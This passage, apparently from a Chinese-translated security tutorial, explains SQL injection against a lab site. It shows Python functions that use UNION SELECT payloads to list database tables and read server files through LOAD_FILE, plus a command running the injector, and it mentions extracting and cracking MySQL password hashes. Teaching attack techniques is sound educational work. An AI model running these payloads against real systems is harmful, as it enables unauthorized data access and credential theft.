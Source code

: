 现在，我们可以看到已提取的新数据。将打印数据库版本。在这种情况下，它是`5.6.28`。它也给了我们一个关于操作系统的提示；`Ubuntu 15.10.1`。运行数据库的用户是 root 用户，这意味着我们拥有很高的权限，这将允许我们做更多有趣的事情，例如，访问存储用户名和密码哈希的表`MySQL.user`。

我们可以看到用户`root`、`debian-sys-maint`和`phpmyadmin`的哈希值。重复发生是因为与每个用户关联的主机条目不同。如果需要的话，可以使用像开膛手约翰这样的工具破解这些密码散列。伟大的您对目标有很好的了解，所以让我们继续提取数据。

# 高级 SQLi 开发

在本节中，我们将添加一个从数据库读取所有表名的函数，并添加一个从数据库服务器 OS 读取文件的函数。

首先，我们将看到如何获取数据库中的所有表名，以便查看是否看到感兴趣的内容，然后我们将添加从 OS 文件系统访问 Final 的功能。

现在，让我们打开文件`SQLinjector-3.py`。我们在这里有一个新函数，它将帮助我们获得不同模式中的表名，除了我们过滤掉的那些，以减少输出中的噪音：

```
def detect_table_names(url):
  new_url= url.replace("FUZZ","""\'%20union%20SELECT%20CONCAT('TOK',
  table_schema,'TOK'),CONCAT('TOK',table_name,'TOK')%20FROM
  %20information_schema.tables%20WHERE%20table_schema%20!=%20
  %27mysql%27%20AND%20table_schema%20!=%20%27information_schema%27
  %20and%20table_schema%20!=%20%27performance_schema%27%20--%20-""")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  tables=re.findall(reg,req.content)
  for table in tables:
    print table
```

结构与以前相同；我们有我们所需要的查询，有助于传递结果的标记和用于传递结果的正则表达式，然后打印结果。最后，我们在`launcher`中有函数调用。让我们在命令行中再次运行它。

在命令行中，让我们使用与前面相同的参数运行它，`SQLinjector-3.py`和相同的参数：

```
python SQLinjector-3.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

很好，您现在可以在输出中看到，我们得到了模式名和表名：

![](../images/00078.jpeg)

在本例中，`pyweb`和`phpmyadmin`是模式，其他是表`user`等等。

让我们转到最后一个例子。我们去编辑器打开文件`SQLinjection-4.py`。这非常酷，它为攻击者打开了一个新的机会世界。让我们看看新的函数，`read_file`：

```
def read_file(url, filename):
  new_url= url.replace("FUZZ","""A\'%20union%20SELECT%201,CONCAT('TOK',
 LOAD_FILE(\'"+filename+"\'),'TOK')--%20-""")
  req=requests.get(new_url)
  reg = ur"TOK(.+?)TOK+?"
  files= re.findall(reg,req.content)
  print req.content
  for x in files:
    if not x.find('TOK,'):
      print x
```
